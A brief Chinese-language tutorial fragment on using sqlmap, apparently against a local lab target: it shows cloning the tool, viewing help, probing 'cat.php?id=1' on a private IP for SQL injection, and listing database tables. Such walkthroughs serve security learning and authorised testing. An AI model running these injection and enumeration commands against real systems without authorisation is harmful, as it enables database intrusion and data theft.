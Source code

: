 ```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

查看帮助文档：

```
python sqlmap.py -hh
```

输入下面指令：

```
python sqlmap.py -u 'http://192.168.55.3/cat.php?id=1'
```

会显示出注入点 和 一些数据库的基本信息：

![sqlmap_first](image/sqlmap_first.jpg)

查找表名：

```
python sqlmap.py -u 'http://192.168.55.3/cat.php?id=1' --table
```
